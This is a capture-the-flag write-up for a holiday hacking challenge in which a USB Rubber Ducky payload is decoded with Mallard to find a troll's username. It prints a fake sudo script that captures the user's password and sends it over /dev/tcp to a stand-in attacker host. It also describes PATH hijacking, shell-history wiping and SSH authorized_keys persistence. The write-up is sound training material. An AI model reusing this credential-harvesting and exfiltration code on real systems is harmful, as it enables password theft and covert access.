 # Strange USB Device

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [ducky terminal](https://docker2021.kringlecon.com/?challenge=ducky&id=0b50ffba-320c-4ef4-bd54-9c68faf91628)<br/>
**Terminal hint**: [IPv6 Sandbox](../hints/h5.md)


## Objective

!!! question "Request"
    Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

??? quote "Morcel Nougat"
    Hello and welcome to the speaker _Un_Preparedness Room!<br/>
    I'm Morcel Nougat, elf extraordinaire.<br/>
    I've heard the talks at the other con across the way are a bit... *off*.<br/>
    I really don't think they have the right sense about what makes for a wonderful holiday season. But, anyway!<br/>
    Say, do you know anything about USB Rubber Duckies?<br/>
    I've been playing around with them a bit myself.<br/>
    Please see what you can do to help solve the Rubber Ducky Objective!<br/>
    Oh, and if you need help, I hear Jewel Loggins, on this floor outside this room, has some experience.


## Hints

??? hint "Ducky Script"
    [Ducky Script](https://docs.hak5.org/hc/en-us/articles/360010555153-Ducky-Script-the-USB-Rubber-Ducky-language) is the language for the USB Rubber Ducky.

??? hint "Ducky RE with Mallard"
    It's also possible the reverse engineer encoded Ducky Script using [Mallard](https://github.com/dagonis/Mallard).

??? hint "Mitre ATT&CK and Ducky"
    The [MITRE ATT&CK tactic T1098.004](https://attack.mitre.org/techniques/T1098/004/) describes SSH persistence techniques through authorized keys files.

??? hint "Duck Encoder"
    Attackers can encode Ducky Script using a [duck encoder](https://docs.hak5.org/hc/en-us/articles/360010471234-Writing-your-first-USB-Rubber-Ducky-Payload) for delivery as `inject.bin`.


## Solution

??? abstract "Welcome message"
    ```
    A random USB device, oh what could be the matter?
    It seems a troll has left this, right on a silver platter.
    Oh my friend I need your ken, this does not smell of attar.
    Help solve this challenge quick quick, I shall offer no more natter.

    Evaluate the USB data in /mnt/USBDEVICE.
    What is the troll username involved with this attack?
    ```

The objective is to find the username of the troll involved with this attack. Start by following the instructions in the welcome message and list the contents of the `/mnt/USBDEVICE` to find an encoded `inject.bin` Ducky Script file. We can decode the script using [Mallard](https://github.com/dagonis/Mallard) which is availabe in our home folder as `mallard.py`.

![Reconnaissance](../img/objectives/o5/recon.png)

Running `python mallard.py --file /mnt/USBDEVICE/inject.bin` prints out the original [Ducky Script commands](../artifacts/objectives/o5/ducky_script.txt).

![Run Mallard](../img/objectives/o5/mallard_exec.png)

The script creates a `~/.config/sudo` folder containing a malicious `sudo` script. When executed, the script requests a password (lines 3-4) and uses the value as input for the legitimate `sudo` tool to verify the password is correct (line 6). Regardless if the password is valid or not the data is then sent to *trollfun.jackfrosttower.com* on TCP port 1337 (lines 9 and 13). If the password is incorrect, the script is run again (lines 10-11). If the password is correct it's passed to the legitimate `sudo` tool (line 14).

!!! example "~/.config/sudo/sudo"
    **Note**: the malicious `sudo` script appears to contain a few errors, starting with the [shebang](https://en.wikipedia.org/wiki/Shebang_(Unix)) line which includes a redundant output redirect statement. The script also starts by executing the legitimate `/usr/bin/sudo` command on line 2, followed by a `read` statement which will result in the user being asked for their password twice. Finally, there's a redundant `fi` statement on line 16 which will cause the script to fail.

    ```bash linenums="1"
    #!/bin/bash > ~/.config/sudo/sudo
    /usr/bin/sudo $@
    echo -n "[sudo] password for $USER: "
    read -s pwd
    echo
    echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
    if [ $? -eq 1 ]
    then
    echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
    echo "Sorry, try again."
    sudo $@
    else
    echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
    echo "$pwd" | /usr/bin/sudo -S $@
    fi
    fi
    ```

Next, the `~/.config/sudo/sudo` script is made executable and the `$PATH` environment variable in both `~/.bash_profile` and `~/.bashrc` is updated to ensure that the `~/.config/sudo/` path takes precedence over any other configured paths. The last part of the Ducky Script reverses a string, Base64 decodes it, executes the decoded instructions via `bash`, and erases any shell history evidence by running `history -c` and deleting the `.bash_history` file.

![Reverse and Base64 decode](../img/objectives/o5/base64_decode.png)

 Manually reversing and Base64 decoding the string yields an `echo` statement which copies the SSH key for user *ickymcgoop@trollfun.jackfrosttower.com* into the `~/.ssh/authorized_keys` file, enabling easy SSH access to the host.

!!! done "Answer"
    *ickymcgoop*

